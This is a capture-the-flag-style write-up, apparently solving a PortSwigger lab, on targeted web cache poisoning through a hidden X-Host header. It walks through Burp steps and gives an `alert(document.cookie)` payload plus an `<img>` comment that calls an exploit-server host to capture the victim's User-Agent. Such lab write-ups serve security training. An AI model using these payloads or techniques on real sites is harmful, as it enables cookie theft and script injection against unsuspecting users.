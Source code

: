 # Targeted web cache poisoning using an unknown header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header) is vulnerable to web cache poisoning. A victim user will view any comments that you post.

## Reproduction

1. With Burp running, load the website's home page.
2. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. Find the `GET` request for the home page.
3. With the **Param Miner** extension enabled, right-click on the request and select **Guess headers**. After a while, **Param Miner** will report that there is a secret input in the form of the `X-Host` header.
4. Send the `GET` request to Burp Repeater and add a cache-buster query parameter, such as `?cb=1234`.
5. Add the `X-Host` header with an arbitrary hostname, such as `example.com`. The value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at `/resources/js/tracking.js`.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Go back to the request in Burp Repeater and set the `X-Host` header with the exploit server url:

```text
X-Host: your-exploit-server-id.web-security-academy.net
```

9. Send the request until you see the exploit server URL reflected in the response and `X-Cache: hit` in the headers.
10. To simulate the victim, load the URL in your browser and make sure that the `alert()` fires.
11. The `Vary` header is used to specify that the `User-Agent` is part of the cache key. To target the victim, you need to find out their `User-Agent`.
12. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:

```text
<img src="https://exploit-0a21009d04709c47c10d2f60017e00dc.exploit-server.net/foo" />
```

13. Go to the blog page and double-check that your comment was successfully posted.
14. Go to the exploit server and click the button to open the **Access log**. Refresh the page every few seconds until you see requests made by a different user. This is the victim. Copy their `User-Agent` from the log.
15. Go back to your malicious request in Burp Repeater and paste the victim's `User-Agent` into the corresponding header. Remove the cache buster.
16. Keep sending the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
17. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

## PoC

[![Screencast PoC Targeted web cache poisoning using an unknown header](../../_static/images/vids/targeted-wbc-unknown-header.png)](https://vimeo.com/798694901)

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser; and also needs to make sure that the response is served to the specific subset of users to which the intended victim belongs. 
